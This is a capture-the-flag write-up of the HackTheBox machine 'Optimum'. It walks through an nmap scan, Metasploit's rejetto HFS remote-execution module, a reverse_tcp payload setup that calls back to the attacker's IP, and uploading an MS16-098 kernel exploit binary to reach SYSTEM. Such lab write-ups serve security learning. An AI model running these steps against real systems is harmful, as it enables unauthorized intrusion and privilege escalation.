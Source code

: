 ```yaml
---
layout: page
title: HackTheBox Optimum Writeup
---
```


This HackTheBox machine involves exploiting a known vulnerability in HFS - HTTP File Server that is public facing. In addition, to escalate privileges, I used other tools such as `windows-exploit-suggester.py` to do further enumeration.

##### If you want to go straight to the solution and skip some extra notes skip the first priv. escalation attempt

### Enumeration

First, we do a basic nmap scan: ```nmap -sC -sV -oA NAME 10.10.10.8```. This will scan the service and ports and save the results into whatever we named the file.

Here are the results:

![image](https://user-images.githubusercontent.com/41026969/65069194-2acdf180-d958-11e9-95db-c07b9f66189f.png)

So from the nmap scan, we can see the box involved is running a Windows HTTP File Server with port 80 open. Checking out the main page we don't see much, though on the bottom left there's a box titled ```Server Information``` that can give us some more info:

![image](https://user-images.githubusercontent.com/41026969/65070569-de37e580-d95a-11e9-8552-31ddcf4f811d.png)

Here's the webpage it leads to: ```https://www.rejetto.com/hfs/```. Picture shown below.

![image](https://user-images.githubusercontent.com/41026969/65070704-21925400-d95b-11e9-8a6b-ac4541eba8e4.png)

Here we can see some more information about the service it's running. Look up and researching about ```rejetto HFS server```, I discover there's potentially a metasploit module. So I decided to open up metasploit. 

### Exploitation

Doing a ```search rejetto``` on metasploit reveals there's an exploit module: ```exploit/windows/http/rejetto_hfs_exec```

I then do ```set RHOST 10.10.10.8``` which sets the target IP address. Here's how it looked like:

![image](https://user-images.githubusercontent.com/41026969/65071120-fa885200-d95b-11e9-8af7-0784b05fa47a.png)

When running the module, we get a meterpreter shell!

##### Getting the user flag

Doing ```sysinfo``` reveals the following:

```
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
```

Now we have more information about the box, the version of the OS. 

From meterpreter we can do ```shell``` to get a local shell inside the windows box. Doing ```whoami``` reveals that we are user ```kostas```. Doing a ```dir``` check reveals the user flag:

![image](https://user-images.githubusercontent.com/41026969/65071417-b8134500-d95c-11e9-8fe7-6a19f7d2b435.png)

Since we got a user shell, we need to work on a privilege escalation.

##### Further enumeration - first priv. escalation attempt

You can save your meterpreter session to go back to it later by ```exit``` out of shell, then when you are in the metrepreter terminal, you can enter ```background```

One of the methods to potentially find an exploit now that we got a local shell, is to use the local exploit suggester moduel found on metasploit. You can do ```search suggester``` and the module ```post/multi/recon/local_exploit_suggester``` should pop up. 

Do ```use post/multi/recon/local_exploit_suggester```. And then set the ```SESSION``` to whatever your meterpreter session number was.  When everything is set, do ```run```. Here's a picture of this process shown below:

![image](https://user-images.githubusercontent.com/41026969/66246889-ea0b0200-e6e5-11e9-96a6-6b13be1ab007.png)

Here's a picture of the output:

![image](https://user-images.githubusercontent.com/41026969/66247022-bd0b1f00-e6e6-11e9-9c0f-9e03fb46f486.png)

One of the results show a metasploit module that could potentially work ```exploit/windows/local/ms16_032_secondary_logon_handle_privesc```. 

So I do ```use exploit/windows/local/ms16_032_secondary_logon_handle_privesc``` then I set ```set SESSION 1``` (that's my meterpreter session number)

To have the best chances of success, I want everything to be set on x64 bit architecture. So I need to make sure that the payload, the process we're currently on, and the ```TARGET``` is all set to something that is 64 bit. The process I did is listed below

We need to set the payload to something x64 bit, do ```search reverse_tcp``` and one of the payloads should be ```payload/windows/x64/shell/reverse_tcp```. To set the payload do ```set payload windows/x64/shell/reverse_tcp```. For the payload options, remember to ```set LHOST [YOUR IP]```.

Now we need to make sure the process we're on is a x64 bit process, go back to your session by doing ```session 1``` (or whatever your session number is). Do ```ps``` and one of the processes should be ```explorer.exe``` the left column should be the ```PID``` and that's what we need. On the meterpreter shell, do ```migrate [PID].```

Now we just need to ```set target 1``` to ensure exploit target is Windows x64.

One last check we should do is that in our meterpreter session, we should check if we have all read/write permissions. Doing a ```pwd``` reveals we are in ```C:\Windows\system32``` and we don't have full permissions. Since we are user ```kostas``` we can simply switch to their directory ```C:\Users\kostas\Desktop```.

Now this should work:

![image](https://user-images.githubusercontent.com/41026969/66250920-27d44e80-e717-11e9-87a5-1fc96216a7ec.png)

Unfortunately it doesn't... When I initially did this method, I checked with other sources and noted what they did in their versions of getting admin using metasploit, and they did the same thing, so I decided to try something else:

### A new approach to getting escalated privileges

This time around, I decide to use [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester). Since we have the shell from the earlier meterpreter session, doing ```shell``` and then doing ```systeminfo``` will print out even more information which includes some hotfixes. 

I downloaded the ```windows-exploit-suggester.py``` file from the link above. If you this is the first time using it, you'd need to calibrate it:

1. ```python windows-exploit-suggester.py --update``` (should get an xls or xlsx file)
2. ```pip install xlrd```

Now copy/paste the output from the ```systeminfo``` from above into a .txt file. Also note where the .xls file is from step 1 above.

To run the exploit suggester: ```python windows-exploit-suggester.py --database [path to .xls file] --systeminfo [path to systeminfo .txt file]```. For example, my command looked like this: ```python Windows-Exploit-Suggester/windows-exploit-suggester.py --database Windows-Exploit-Suggester/2019-10-04-mssb.xls --systeminfo htb-optimum/sysinfo.txt```

Running the python program gives us the following result:

![image](https://user-images.githubusercontent.com/41026969/66251086-09238700-e71a-11e9-9eae-ab6eb9846ba9.png)

After some testing and researching about the potential exploits we could use, one I ran into was [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098).

After reading the Usage part of the github linked above, I downloaded the ```bfill.exe``` file. Now, using the meterpreter shell from earlier we need to upload the exe and then run it on the victim's machine:

From the meterpreter session ```upload bfill.exe```. Then after, we simply run it on the windows shell:

![image](https://user-images.githubusercontent.com/41026969/66251221-e1352300-e71b-11e9-8046-c0c433b3bd03.png)

Doing a ```whoami``` shows we are ```nt authority\system```! Box rooted.

### Flags
user: ```C:\Users\kostas\Destop\user.txt.txt```

root: ```C:\Users\Administrator\Desktop\root.txt```